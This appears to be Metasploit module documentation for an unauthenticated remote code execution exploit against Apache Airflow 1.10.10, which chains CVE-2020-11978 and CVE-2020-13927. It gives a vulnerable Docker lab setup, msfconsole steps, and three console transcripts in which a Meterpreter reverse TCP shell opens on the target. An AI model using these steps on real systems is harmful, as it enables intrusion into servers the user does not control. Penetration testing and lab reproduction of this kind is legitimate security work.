 ## Vulnerable Application

The vulnerability affects:

    * Apache Airflow versions less than 1.10.11

This module was successfully tested on:

    * Apache Airflow 1.10.10 installed with Docker on Debian 10
    * Apache Airflow 1.10.10 installed with Docker on Kali Linux 6.3.0
    * Apache Airflow 1.10.10 installed with Docker on Windows 10

Note that this module has not been tested on non-Docker installations of Airflow.

### Description

This module exploits an unauthenticated command injection vulnerability by combining
two critical vulnerabilities in Apache Airflow 1.10.10. The first, CVE-2020-11978, is
an authenticated command injection vulnerability found in one of Airflow's example DAGs,
`example_trigger_target_dag`, which allows any authenticated user to run arbitrary OS
commands as the user running Airflow Worker/Scheduler. The second, CVE-2020-13927, is a
default setting of Airflow 1.10.10 that allows unauthenticated access to Airflow's
Experimental REST API to perform malicious actions such as creating the vulnerable DAG
above. The two CVEs taken together allow vulnerable DAG creation and command injection,
leading to unauthenticated remote code execution.

### Setup

Install Apache Airflow v1.10.10 with a `docker-compose.yml` file below
([reference](https://github.com/pberba/CVE-2020-11978/blob/main/docker-compose.yml)):
```yml
version: '3'

services:
  x-airflow-common:
    &airflow-common
    image: apache/airflow:1.10.10
    environment:
      &airflow-common-env
      AIRFLOW__WEBSERVER__AUTHENTICATE: 'true'
      AIRFLOW__WEBSERVER__AUTH_BACKEND: 'airflow.contrib.auth.backends.password_auth'
      AIRFLOW__CORE__LOAD_EXAMPLES: 'true'
    user: "${AIRFLOW_UID:-50000}:${AIRFLOW_GID:-50000}"
  airflow-webserver:
    <<: *airflow-common
    entrypoint: ["/bin/bash", "-c", "pip install 'apache-airflow[password]==1.10.10' --user && airflow initdb && (airflow webserver & airflow scheduler)"]
    ports:
      - 8080:8080
    healthcheck:
      test: ["CMD", "curl", "--fail", "http://localhost:8080/health"]
      interval: 10s
      timeout: 10s
      retries: 5
    restart: always
```

Run:

```sh
docker-compose up
```

and wait for the health check logs to indicate a 200 status message, e.g.:

```log
airflow-webserver_1  | 127.0.0.1 - - [11/Aug/2023:11:48:00 +0000] "GET /health HTTP/1.1" 200 187 "-" "curl/7.64.0"
```

## Verification Steps

- [x] Install Apache Airflow v1.10.10 as described above.
- [x] Verify that the container is in good health by looking at the logs or navigating to
`http://<TARGET_IP>:8080/admin/airflow/login`.
- [x] Start `msfconsole`.
- [x] Do: `use exploit/linux/http/apache_airflow_dag_rce`.
- [x] Do: `set RHOSTS <TARGET_IP>`.
- [x] Do: `set LHOST eth0`.
- [x] Do: `exploit`.

## Options

### TARGETURI (required)

This is the base path of the Airflow webserver. Defaults to `/`.

### RPORT (required)

This is the port of the Airflow webserver. Defaults to `8080`, although Docker port
mappings or custom installations can change it.

### DAG_PATH (required)

This is the path to the vulnerable example DAG `example_trigger_target_dag`, as accessed
from the Airflow Experimental REST API. Defaults to `/api/experimental/dags/example_trigger_target_dag`.

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 120 seconds.

## Scenarios

### Apache Airflow 1.10.10 Installed with Docker on Debian 10

* Using default TARGET 0 - Unix Command

```msf
msf6 > use exploit/linux/http/apache_airflow_dag_rce 
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 192.168.245.139
RHOSTS => 192.168.245.139
msf6 exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-09-17 14:33:46+00:00: manual__2023-09-17T14:33:46+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.139:42718) at 2023-09-17 22:34:15 +0800
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 8603acff8812
OS              : Linux 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Apache Airflow 1.10.10 Installed with Docker on Kali Linux 6.4.0

* Using default TARGET 0 - Unix Command

```msf
msf6 > use exploit/linux/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-09-17 14:23:37+00:00: manual__2023-09-17T14:23:37+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 172.18.0.2:55150) at 2023-09-17 22:24:10 +0800

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : e4879badf9e2
OS              : Linux 6.4.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.4.11-1kali1 (2023-08-21)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```

### Apache Airflow 1.10.10 Installed with Docker (WSL Backend) on Windows 10

* Using default TARGET 0 - Unix Command

* Sometimes, the first Meterpreter session fails, but the second one opens successfully.

```msf
msf6 > use exploit/linux/http/apache_airflow_dag_rce 
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(linux/http/apache_airflow_dag_rce) > set RHOSTS 192.168.50.180
RHOSTS => 192.168.50.180
msf6 exploit(linux/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-21 02:03:23+00:00: manual__2023-08-21T02:03:23+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.50.180 - Meterpreter session 1 closed.
[*] Meterpreter session 2 opened (192.168.245.128:4444 -> 192.168.245.1:65490) at 2023-08-21 10:05:05 +0800

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 8e6653049826
OS              : Linux 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > 
```
